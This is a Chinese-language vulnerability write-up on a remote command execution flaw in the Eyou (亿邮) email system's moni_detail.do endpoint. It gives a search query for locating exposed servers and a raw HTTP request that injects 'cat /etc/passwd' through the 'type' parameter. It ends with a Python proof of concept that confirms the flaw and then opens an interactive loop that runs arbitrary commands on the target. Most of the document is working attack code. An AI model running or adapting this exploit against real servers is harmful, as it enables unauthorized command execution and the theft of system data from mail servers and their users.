

# 亿邮电子邮件系统 moni_detail.do 远程命令执行漏洞

## 漏洞描述

亿邮电子邮件系统 存在远程命令执行漏洞，攻击者可以执行任意命令

## 漏洞影响

```
亿邮电子邮件系统
```

## 网络测绘

```
body="亿邮电子邮件系统"
```

## 漏洞复现

登录页面如下


漏洞请求包如下


```plain
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```



## 漏洞POC


```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Eyou Email SYSTEM                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
            "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|cat /etc/passwd||'"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//webadm/?q=moni_detail.do&action=gragh \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|{}||'".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```

